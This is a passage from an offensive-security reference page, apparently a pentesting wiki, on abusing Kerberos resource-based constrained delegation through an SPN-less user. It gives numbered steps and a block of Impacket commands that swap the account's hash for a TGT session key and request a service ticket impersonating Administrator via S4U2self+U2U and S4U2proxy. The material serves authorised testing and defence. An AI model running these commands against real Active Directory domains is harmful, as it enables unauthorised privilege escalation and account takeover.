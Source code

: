 1. Obtain a TGT for the SPN-less user allowed to delegate to a target and retrieve the TGT session key.
2. Change the user's password hash and set it to the TGT session key.
3. [Combine S4U2self and U2U](../#s4u2self-+-u2u) so that the SPN-less user can obtain a service ticket to itself, on behalf of another (powerful) user, and then proceed to S4U2proxy to obtain a service ticket to the target the user can delegate to, on behalf of the other, more powerful, user.
4. [Pass the ticket](../ptt.md) and access the target, as the delegated other

> [!NOTE]
> While this technique allows for an abuse of the RBCD primitive, even when the [`MachineAccountQuota`](../../builtins/machineaccountquota.md) is set to 0, or when the absence of LDAPS limits the creation of computer accounts, it requires a sacrificial user account. In the abuse process, the user account's password hash will be reset with another hash that has no known plaintext, effectively preventing regular users from using this account.

::: tabs

=== UNIX-like

From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket) (Python) scripts can be used to operate that technique. At the time of writing, September 7th 2022, some of the tools used below are in Pull Requests still being reviewed before merge ([#1201](https://github.com/SecureAuthCorp/impacket/pull/1201) and [#1202](https://github.com/SecureAuthCorp/impacket/pull/1202)).


```bash
# Obtain a TGT through overpass-the-hash to use RC4
getTGT.py -hashes :$(pypykatz crypto nt 'SomePassword') 'domain'/'controlledaccountwithoutSPN'

# Obtain the TGT session key
describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'

# Change the controlledaccountwithoutSPN's NT hash with the TGT session key
smbpasswd.py -newhashes :TGTSessionKey 'domain'/'controlledaccountwithoutSPN':'SomePassword'@'DomainController'

# Obtain the delegated service ticket through S4U2self+U2U, followed by S4U2proxy (the steps could be conducted individually with the -self and -additional-ticket flags)
KRB5CCNAME='TGT.ccache' getST.py -u2u -impersonate "Administrator" -spn "host/target.domain.com" -k -no-pass 'domain'/'controlledaccountwithoutSPN'

# The password can then be reset to its old value (or another one if the domain policy forbids it, which is usually the case)
smbpasswd.py -hashes :TGTSessionKey -newhashes :OldNTHash 'domain'/'controlledaccountwithoutSPN'@'DomainController'
```


After these steps, the final service ticket can be used with [Pass-the-ticket](../ptt.md).


=== Windows

From Windows systems, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used to operate the technique.

The steps detailed in [PR #137](https://github.com/GhostPack/Rubeus/pull/137) can be followed.
